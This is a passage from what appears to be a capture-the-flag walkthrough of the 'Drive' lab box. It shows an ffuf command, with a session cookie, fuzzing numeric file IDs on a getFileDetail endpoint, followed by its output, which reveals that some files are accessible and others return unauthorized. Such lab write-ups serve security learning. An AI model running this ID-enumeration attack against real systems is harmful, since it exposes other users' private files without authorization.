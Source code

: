     
    
    HTTP/1.1 401 Unauthorized
    Server: nginx/1.18.0 (Ubuntu)
    Date: Tue, 13 Feb 2024 21:11:32 GMT
    Content-Type: application/json
    Content-Length: 26
    Connection: close
    X-Frame-Options: DENY
    Vary: Cookie
    X-Content-Type-Options: nosniff
    Referrer-Policy: same-origin
    Cross-Origin-Opener-Policy: same-origin
    
    {"status": "unauthorized"}
    

#### Files

I can do the same attack on files:

    
    
    oxdf@hacky$ ffuf -u http://drive.htb/FUZZ/getFileDetail/ -w <(seq 1 500) -fc 500  -H "Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu"
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://drive.htb/FUZZ/getFileDetail/
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Header           : Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response status: 500
    ________________________________________________
    
    79                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 336ms]
    99                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 335ms]
    98                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 347ms]
    101                     [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 327ms]
    100                     [Status: 200, Size: 5078, Words: 1147, Lines: 172, Duration: 357ms]
    112                     [Status: 200, Size: 5053, Words: 1062, Lines: 167, Duration: 334ms]
    :: Progress: [500/500] :: Job [1/1] :: 149 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
    